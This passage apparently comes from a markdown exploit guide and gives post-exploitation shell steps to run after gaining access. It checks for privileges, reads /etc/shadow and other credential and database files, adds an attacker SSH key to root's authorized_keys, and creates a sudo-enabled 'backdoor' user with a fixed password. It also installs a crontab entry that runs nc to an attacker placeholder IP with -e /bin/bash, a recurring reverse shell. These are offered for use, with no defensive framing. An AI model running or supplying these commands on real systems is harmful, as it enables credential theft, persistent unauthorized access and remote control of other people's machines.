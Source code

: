 ### Privilege Escalation Check
```bash
# Check if already root (usually the case with this exploit)
id

# If not root, check sudo permissions
sudo -l

# Look for SUID binaries
find / -perm -4000 2>/dev/null

# Check for interesting files
find /home -type f -name "*.txt" -o -name "*.bak" 2>/dev/null
```

### Data Exfiltration
```bash
# Look for sensitive files
cat /etc/passwd
cat /etc/shadow
find / -name "*.conf" 2>/dev/null | head -10

# Check user directories
ls -la /home/
ls -la /root/

# Database files
find / -name "*.db" -o -name "*.sql" 2>/dev/null
```

### Persistence Establishment
```bash
# Add SSH key (if SSH is available)
mkdir -p /root/.ssh
echo "<your-public-key>" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Create backdoor user
useradd -m -s /bin/bash backdoor
echo "backdoor:password123" | chpasswd
usermod -aG sudo backdoor

# Cron job persistence
echo "* * * * * root nc <your-ip> <your-port> -e /bin/bash" >> /etc/crontab
```

---

## 🛠️ Troubleshooting

### Common Issues and Solutions
